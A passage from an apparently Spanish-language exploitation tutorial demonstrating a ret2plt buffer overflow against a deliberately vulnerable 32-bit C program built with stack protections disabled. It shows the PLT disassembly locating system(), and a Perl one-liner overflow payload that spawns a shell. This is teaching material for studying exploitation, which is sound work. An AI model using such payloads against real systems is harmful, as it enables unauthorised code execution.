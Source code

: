 int main(int argc, char\*\* argv)  
{  
if(argc < 2) return 1;  
imprimir(argv\[1\]);  
return 0;  
}

$ gcc a.c -o a -m32 -no-pie -fno-pie -fno-stack-protector -D\_FORTIFY\_SOURCE=0

$ objdump -d a -j .plt

a: formato del fichero elf32-i386

Desensamblado de la sección .plt:

080483a0 <.plt>:  
80483a0: ff 35 04 a0 04 08 push DWORD PTR ds:0x804a004  
80483a6: ff 25 08 a0 04 08 jmp DWORD PTR ds:0x804a008  
80483ac: 00 00 add BYTE PTR \[eax\],al  
…

080483b0 <strcpy@plt>:  
80483b0: ff 25 0c a0 04 08 jmp DWORD PTR ds:0x804a00c  
80483b6: 68 00 00 00 00 push 0x0  
80483bb: e9 e0 ff ff ff jmp 80483a0 <.plt>

080483c0 <puts@plt>:  
80483c0: ff 25 10 a0 04 08 jmp DWORD PTR ds:0x804a010  
80483c6: 68 08 00 00 00 push 0x8  
80483cb: e9 d0 ff ff ff jmp 80483a0 <.plt>

080483d0 <system@plt>:  
80483d0: ff 25 14 a0 04 08 jmp DWORD PTR ds:0x804a014  
80483d6: 68 10 00 00 00 push 0x10  
80483db: e9 c0 ff ff ff jmp 80483a0 <.plt>

080483e0 <exit@plt>:  
80483e0: ff 25 18 a0 04 08 jmp DWORD PTR ds:0x804a018  
80483e6: 68 18 00 00 00 push 0x18  
80483eb: e9 b0 ff ff ff jmp 80483a0 <.plt>

080483f0 <\_\_libc\_start\_main@plt>:  
80483f0: ff 25 1c a0 04 08 jmp DWORD PTR ds:0x804a01c  
80483f6: 68 20 00 00 00 push 0x20  
80483fb: e9 a0 ff ff ff jmp 80483a0 <.plt>

Encontramos que la dir de system() en la plt es `0x080483d0`. Vamoh a explotarlo (Marx meh).  
``$ ./a `perl -e 'print "A"x140 . "xd0x83x04x08" . "xe0x83x04x08" . "x6cxddxffxff"'`  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAЃ��l���  
sh-4.4$``

Prácticamente igual que emplear un ret2libc, solo que aquí no salimos de casa jaja. Ya entraremos más a fondo en el funcionamiento de la PLT y del lazy binding, así como otras utilidades más profundas para el exploiting (sobrescritura de entradas de la GOT (_Global Offset Table_) y ret2dl-resolve).

En último término, si no encontramos ninguna función útil en la plt podemos usar dos técnicas, ¿de cuál prefieres que hablemos primero?…Bueno empezaremos por esta.
